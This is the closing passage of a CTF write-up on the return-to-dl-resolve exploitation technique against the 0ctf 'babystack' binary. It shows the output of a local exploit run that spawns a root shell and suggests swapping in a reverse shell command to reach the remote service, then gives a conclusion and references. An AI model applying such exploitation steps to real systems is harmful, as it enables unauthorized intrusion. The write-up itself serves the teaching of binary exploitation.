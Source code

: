 ```sh
# python exploit_my.py
[+] Starting local process './babystack': pid 1987
[*] '/root/CTF/0ctf/babystack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ whoami
root
$  
```
Awesome! We have successfully exploited this binary on our local machine.
However, this payload wil not work for the remote babystack service because whose stdout redirected to /dev/null.
To get the flag, change the "sh" command with a reverse shell command, send the new payload to the remote server and wait for the vulnerable machine to connect back to your host and open shell.


# 8. Conclusion
All things consider, return-to dl-resolve is one of the most interesting techniques I have ever used because neither libc remote version nor leaking addresses is required to call functions not imported by the elf explicitly.   
Despite the fact that  additional gadgets and address leaks are still required on 64-bit environment, the principle is the same.
To automate the payload crafting process easier, roputils library from inaz2 can be used. This great tool has support for various return-to techniques, including the one described in this article [7].
Should you have any questions or remarks, please contact me: ricardoungureanu@gmail.com

<hr>
[1] http://phrack.org/issues/58/4.html<br>
[2] http://rk700.github.io/2015/08/09/return-to-dl-resolve/ <br>
[3] http://www.gabriel.urdhr.fr/2015/01/22/elf-linking/<br>
[4] https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html<br>
[5] https://manybutfinite.com/post/anatomy-of-a-program-in-memory/ <br>
[6] https://docs.oracle.com/cd/E23824_01/html/819-0690/chapter3-7.html<br>
[7] https://github.com/inaz2/roputils/blob/master/examples/dl-resolve-i386.py <br>
